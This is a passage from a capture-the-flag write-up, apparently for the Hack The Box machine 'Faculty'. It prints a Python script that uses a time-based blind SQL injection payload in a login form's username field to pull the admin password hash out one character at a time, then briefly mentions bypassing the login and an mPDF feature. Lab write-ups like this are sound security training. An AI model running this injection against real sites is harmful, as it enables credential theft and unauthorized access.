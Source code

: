 Now you have the password column, we need to **dump "password"** to get **admin** credentials. **Update** again like this.

```python
def sqli():
    password = ""

    p1 = log.progress("Brute Force")
    p1.status("Starting Attack")


    p2 = log.progress("Admin Password [DB:scheduling_db][Table:users][Coloumn:password]")

    for position in range(1, 35):

        for character in characters:


            post_data = {
                'username' : "admin' and if(substr((select password from users where username = 'admin'),%d,1)='%s',sleep(1.5),1)-- -" % (position,character),
                'password' : 'password'

            }

            p1.status(post_data['username'])

            time_start = time.time()

            r = requests.post(login_url, data=post_data)

            time_end = time.time()

            if time_end - time_start > 1.5:
                password += character
                p2.status(password)
                break

```
**Example:**
![](/assets/img/faculty-htb/admin_password.png)

So after we do all this stuff, if we try to crack that md5 password hash , you will see that **is not crackeable :(**, at least we tried, no?


After we bypass the login panel i found this feature in the **faculty list** option.

![](/assets/img/faculty-htb/mpdf1.png)
